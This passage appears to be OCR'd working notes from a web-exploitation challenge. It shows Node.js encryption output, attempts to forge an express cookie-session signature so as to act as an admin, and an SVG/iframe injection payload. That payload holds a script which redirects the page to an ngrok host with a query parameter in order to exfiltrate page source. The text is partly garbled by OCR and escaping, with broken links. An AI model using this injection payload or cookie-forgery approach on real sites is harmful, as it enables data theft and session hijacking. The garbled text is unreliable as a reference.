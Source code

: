 return decrpyted\.toString\(\);
\};

module\.exports = \{
encrypt,
decrypt
\};


└──╼ $node nodecrypto\.js
Hello World\!: \[object Object\]
\{"username":"111\-111\-1111"\} text : a6d509d81be45a0b33b7943a55a062864213b0844ba4f553a824b3
\{"username":"111\-111\-1111"\} IV : 859a115314c01c14bbac3a32eae2ab33
└──╼ $echo 859a115314c01c14bbac3a32eae2ab33 | base64
ODU5YTExNTMxNGMwMWMxNGJiYWMzYTMyZWFlMmFiMzMK

**nope**, but maybe I could go from raw bytes \(from hex\) to base64 instead in cyberchef:

My sig:
session=eyJ1c2VybmFtZSI6IjExMS0xMTEtMTExMSJ9; 
session\.sig=Hx7l5IJEuIjS3RqYX9GCmqR32Fw

hZoRUxTAHBS7rDoy6uKrMw==

**Hmmm\.\. not quite, no\.**
**Sig decodes frmo base64 as**: \.\.åä\.D¸\.ÒÝ\.\.\_Ñ\.\.¤wØ\\

Okay, I will come back to this, need the admin guid anyway to get a cookie as them, if that will actually help \(?? not sure\.\.\)

Got a better way to exfil the source to each site, the screen was too small, needed to modify this:

\{"svg":"\<svg\-dummy\>\</svg\-dummy\>\<iframe src=\\"[https://3e1b-216-93-199-231.ngrok.io/doc.html](#https://3e1b-216-93-199-231.ngrok.io/doc.html';</script></iframe><svg)
\\" allow=\\"fullscreen\\" width=\\"1500\\" height=\\"2400\\"\>\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/?c=';</script></iframe><svg](#https://3e1b-216-93-199-231.ngrok.io/doc.html';</script></iframe><svg)
version=\\"1\.1\\" xmlns=\\"[http://www.w3.org/2000/svg\\"](#http://www.w3.org/2000/svg")
xmlns:xlink=\\"[http://www.w3.org/1999/xlink\\"](#http://www.w3.org/1999/xlink")
width=\\"1500\\" height=\\"2400\\" viewBox=\\"0,0,1500,2400\\"\>\<g fill=\\"#3d3d3d\\" fill\-rule=\\"nonzero\\" stroke=\\"none\\" stroke\-miterlimit=\\"10\\" stroke\-dasharray=\\"\\" stroke\-dashoffset=\\"0\\" font\-family=\\"none\\" font\-weight=\\"none\\" font\-size=\\"8\\" text\-anchor=\\"none\\" style=\\"mix\-blend\-mode: normal\\"\>\</svg\>"\}

**routes shows it is taking this json:
**
svg: scope\.project \&\& scope\.project\.exportSVG\(\{asString: true\}\)

**Looks like I really just need to try signing with this key\!\!\!
The modules in use are:**
express\-session
cookie\-session
cookie\-parser

